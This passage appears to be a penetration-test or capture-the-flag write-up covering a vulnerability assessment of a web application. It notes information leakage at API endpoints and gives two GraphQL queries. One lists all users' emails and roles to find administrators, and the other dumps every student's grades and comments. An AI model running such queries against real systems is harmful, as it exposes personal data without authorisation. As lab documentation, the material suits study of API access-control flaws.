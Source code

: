 ## 3. Vulnerability Assessment / Exploitation
### API Endpoints Information Leakage
- As can be seen in [[#Further Exploration]] there is information leakage when `/api/[endpoint name]` is used. 
- However, this way of listing things is not efficient as we have to manually correlate.
- Since GraphQL is available, we will use GraphQL to query the data according to what we need.

### GraphQL API Injection 
#### Query
##### Find Administrator Emails
- Using the query below, we canlist all users, their emails and their roles

```
query {
	users {
    name
    id
    email
    role{
      id
      name      
    }
	}
}
```

|Admin|Admin|
|---|---|
|![[Pasted image 20220822164348.png]]|![[Pasted image 20220822164409.png]]|
|![[Pasted image 20220822164430.png]]||

##### Find Everyone's Grades
- Using the query below, we can list all classes, and the grades that corresponds to the students. 

```
query {
	class {
           id
           name
		   description
		   grades {
			       grade
		           comments
                   user{
                         id
                         name
                              }
		          }
	      }
}
```
